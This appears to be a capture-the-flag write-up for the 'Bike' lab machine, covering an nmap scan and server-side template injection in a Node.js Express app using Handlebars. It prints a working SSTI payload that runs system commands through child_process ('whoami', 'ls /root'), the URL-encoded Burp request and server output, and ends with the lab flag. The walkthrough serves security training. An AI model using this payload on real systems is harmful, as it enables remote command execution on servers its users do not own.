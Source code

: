 # Enumeration

Start nmap:

```shell
└─$ cat enumeration/nmap.txt  
# Nmap 7.92 scan initiated Thu Sep  1 17:57:33 2022 as: nmap -sC -sV -v -o nmap.txt 10.129.161.96
Nmap scan report for 10.129.161.96
Host is up (0.031s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 48:ad:d5:b8:3a:9f:bc:be:f7:e8:20:1e:f6:bf:de:ae (RSA)
|   256 b7:89:6c:0b:20:ed:49:b2:c1:86:7c:29:92:74:1c:1f (ECDSA)
|_  256 18:cd:9d:08:a6:21:a8:b8:b6:f7:9f:8d:40:51:54:fb (ED25519)
80/tcp open  http    Node.js (Express middleware)
|_http-title:  Bike 
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Sep  1 17:57:41 2022 -- 1 IP address (1 host up) scanned in 8.42 seconds
                                                                                                                                                                                                                                   
┌──(darthv㉿elite)-[~/git/badorius/vulnhub/Bike]
```
Open browser http://10.129.161.96  and check wappalyzer information:

Both Nmap and Wappalyzer have reported that the server is built on Node.js and is using the Express
framework.
What is Node.js?
Node.js is an open-source, cross-platform, back-end JavaScript runtime environment that can be used to build
scalable network applications.
What is Express?
Express is a minimal and flexible Node.js web application framework that provides a robust set of features for web
and mobile applications.

What is a Template Engine?
Template Engines are used to display dynamically generated content on a web page. They replace the
variables inside a template file with actual values and display these values to the client (i.e. a user opening a
page through their browser)

What is an SSTI?
Server-side template injection is a vulnerability where the attacker injects malicious input into a template in order
to execute commands on the server.

# IDENTIFICATION

In order to exploit a potential SSTI vulnerability we will need to first confirm its existence. After researching
for common SSTI payloads on Google, we find this [Hacktricks](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection) article that showcases exploitation techniques
for various different template engines. 

Let's try {{7*7}} on contact form, and get the following error:
```json
	
0	"Error: Parse error on line 1:"
1	"{{7*7}}"
2	"--^"
3	"Expecting 'ID', 'STRING', 'NUMBER', 'BOOLEAN', 'UNDEFINED', 'NULL', 'DATA', got 'INVALID'"
4	"    at Parser.parseError (/root/Backend/node_modules/handlebars/dist/cjs/handlebars/compiler/parser.js:268:19)"
5	"    at Parser.parse (/root/Backend/node_modules/handlebars/dist/cjs/handlebars/compiler/parser.js:337:30)"
6	"    at HandlebarsEnvironment.parse (/root/Backend/node_modules/handlebars/dist/cjs/handlebars/compiler/base.js:46:43)"
7	"    at compileInput (/root/Backend/node_modules/handlebars/dist/cjs/handlebars/compiler/compiler.js:515:19)"
8	"    at ret (/root/Backend/node_modules/handlebars/dist/cjs/handlebars/compiler/compiler.js:524:18)"
9	"    at router.post (/root/Backend/routes/handlers.js:15:18)"
10	"    at Layer.handle [as handle_request] (/root/Backend/node_modules/express/lib/router/layer.js:95:5)"
11	"    at next (/root/Backend/node_modules/express/lib/router/route.js:137:13)"
12	"    at Route.dispatch (/root/Backend/node_modules/express/lib/router/route.js:112:3)"
13	"    at Layer.handle [as handle_request] (/root/Backend/node_modules/express/lib/router/layer.js:95:5)"
```

This means that the payload was indeed detected as valid by the template engine, however the code had
some error and was unable to be executed. An error is not always a bad thing. On the contrary for a
Penetration Tester, it can provide valuable information. In this case we can see that the server is running
from the /root/Backend directory and also that the Handlebars Template Engine is being used.

# EXPLOTATION

Browse site with burpsuite and send to repeater just on {{7*7}} POST, 
Take a look on [Hacktrick](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injectionG) section that is titled " Handlebars (NodeJS) " 

```json
{{#with "s" as |string|}}
{{#with "e"}}
{{#with split as |conslist|}}
{{this.pop}}
{{this.push (lookup string.sub "constructor")}}
{{this.pop}}
{{#with string.split as |codelist|}}
{{this.pop}}
{{this.push "return require('child_process').exec('whoami');"}}
{{this.pop}}
{{#each conslist}}
{{#with (string.sub.apply 0 codelist)}}
{{this}}
{{/with}}
{{/each}}
{{/with}}
{{/with}}
{{/with}}
{{/with}}
```

Lets focused on ```json {{this.push "return require('child_process').exec('whoami');"}}```

To pass this payload to server we need to URL Encodeing the payload:

# URL Encoding

When making a request to a web server, the data that we send can only contain certain characters from the
standard 128 character ASCII set. Reserved characters that do not belong to this set must be encoded. For
this reason we use an encoding procedure that is called URL Encoding .
With this process for instance, the reserved character & becomes %26 . Luckily, BurpSuite has a tab called
Decoder that allows us to either decode or encode the text of our choice with various different encoding
methods, including URL.
Let's paste the above payload into the top pane of the Decoder and select Encode as > URL

Copy the URL encoded payload that is in the bottom pane and paste it in the email= field via the request
tab. You will get something similar to the following image.

After encode as URL, we can send to repeater as follow:
```html
POST / HTTP/1.1
Host: 10.129.161.96
Content-Length: 14
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://10.129.161.96
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/103.0.5060.134 Safari/537.36

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9

Referer: http://10.129.161.96/

Accept-Encoding: gzip, deflate

Accept-Language: en-US,en;q=0.9

Connection: close

%7b%7b%23%77%69%74%68%20%22%73%22%20%61%73%20%7c%73%74%72%69%6e%67%7c%7d%7d%0a%20%20%7b%7b%23%77%69%74%68%20%22%65%22%7d%7d%0a%20%20%20%20%7b%7b%23%77%69%74%68%20%73%70%6c%69%74%20%61%73%20%7c%63%6f%6e%73%6c%69%73%74%7c%7d%7d%0a%20%20%20%20%20%20%7b%7b%74%68%69%73%2e%70%6f%70%7d%7d%0a%20%20%20%20%20%20%7b%7b%74%68%69%73%2e%70%75%73%68%20%28%6c%6f%6f%6b%75%70%20%73%74%72%69%6e%67%2e%73%75%62%20%22%63%6f%6e%73%74%72%75%63%74%6f%72%22%29%7d%7d%0a%20%20%20%20%20%20%7b%7b%74%68%69%73%2e%70%6f%70%7d%7d%0a%20%20%20%20%20%20%7b%7b%23%77%69%74%68%20%73%74%72%69%6e%67%2e%73%70%6c%69%74%20%61%73%20%7c%63%6f%64%65%6c%69%73%74%7c%7d%7d%0a%20%20%20%20%20%20%20%20%7b%7b%74%68%69%73%2e%70%6f%70%7d%7d%0a%20%20%20%20%20%20%20%20%7b%7b%74%68%69%73%2e%70%75%73%68%20%22%72%65%74%75%72%6e%20%72%65%71%75%69%72%65%28%27%63%68%69%6c%64%5f%70%72%6f%63%65%73%73%27%29%2e%65%78%65%63%28%27%77%68%6f%61%6d%69%27%29%3b%22%7d%7d%0a%20%20%20%20%20%20%20%20%7b%7b%74%68%69%73%2e%70%6f%70%7d%7d%0a%20%20%20%20%20%20%20%20%7b%7b%23%65%61%63%68%20%63%6f%6e%73%6c%69%73%74%7d%7d%0a%20%20%20%20%20%20%20%20%20%20%7b%7b%23%77%69%74%68%20%28%73%74%72%69%6e%67%2e%73%75%62%2e%61%70%70%6c%79%20%30%20%63%6f%64%65%6c%69%73%74%29%7d%7d%0a%20%20%20%20%20%20%20%20%20%20%20%20%7b%7b%74%68%69%73%7d%7d%0a%20%20%20%20%20%20%20%20%20%20%7b%7b%2f%77%69%74%68%7d%7d%0a%20%20%20%20%20%20%20%20%7b%7b%2f%65%61%63%68%7d%7d%0a%20%20%20%20%20%20%7b%7b%2f%77%69%74%68%7d%7d%0a%20%20%20%20%7b%7b%2f%77%69%74%68%7d%7d%0a%20%20%7b%7b%2f%77%69%74%68%7d%7d%0a%7b%7b%2f%77%69%74%68%7d%7d
email=
&action=Submit
```

Repeater response:
```html
HTTP/1.1 400 Bad Request

Connection: close
```
Template Engines are often Sandboxed, meaning their code runs in a restricted code space so that in the
event of malicious code being run, it will be very hard to load modules that can run system commands. If we
cannot directly use require to load such modules, we will have to find a different way.

Change push with this one:

```nodejs
{{#with "s" as |string|}}
  {{#with "e"}}
    {{#with split as |conslist|}}
      {{this.pop}}
      {{this.push (lookup string.sub "constructor")}}
      {{this.pop}}
      {{#with string.split as |codelist|}}
        {{this.pop}}
        {{this.push "return process.mainModule.require('child_process').execSync('ls /root');"}}
        {{this.pop}}
        {{#each conslist}}
          {{#with (string.sub.apply 0 codelist)}}
            {{this}}
          {{/with}}
        {{/each}}
      {{/with}}
    {{/with}}
  {{/with}}
{{/with}}
```

Resppone:
```nodejs
   <p class="result">
        We will contact you at: 

      e
      2
      [object Object]
        function Function() { [native code] }
        2
        [object Object]
            Backend
flag.txt
snap
```

Get the flag: 6b258d726d287462d60c103d0142a81c 
